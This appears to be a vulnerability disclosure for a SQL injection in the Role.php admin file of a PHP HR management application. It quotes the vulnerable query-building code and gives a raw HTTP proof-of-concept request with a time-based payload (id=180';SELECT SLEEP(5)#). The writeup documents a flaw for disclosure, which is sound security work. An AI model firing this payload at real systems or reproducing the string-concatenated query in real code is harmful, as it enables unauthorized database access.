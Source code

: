 ### Vulnerability file address

`admin/Operation/Role.php` from line 55,The `$_POST['id']` parameter is controllable and the `$_POST['id']` is not protected from sql injection, line 56 `$stmt->execute();` ,line 56 performs a SQL query, causing SQL injection

```php
 <?php

    }
    if (isset($_POST['btn_edit'])) {
      //$id=$_GET['id'];
      //echo "string";
      extract($_POST);
      $stmt = $conn->prepare("delete  from permission_role where group_id='" . $_POST['id'] . "'");
      $stmt->execute();

      $stmt = $conn->prepare("UPDATE groups set name='$assign_name',description='$description' where id='" . $_POST['id'] . "'");
      $stmt->execute();
```

### POC

```http
POST /CMS/php/_hr_soft/admin/Operation/Role.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

btn_edit=1&id=180';SELECT SLEEP(5)#
```

### Attack results pictures

![image-20250130165733396](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501301657429.png)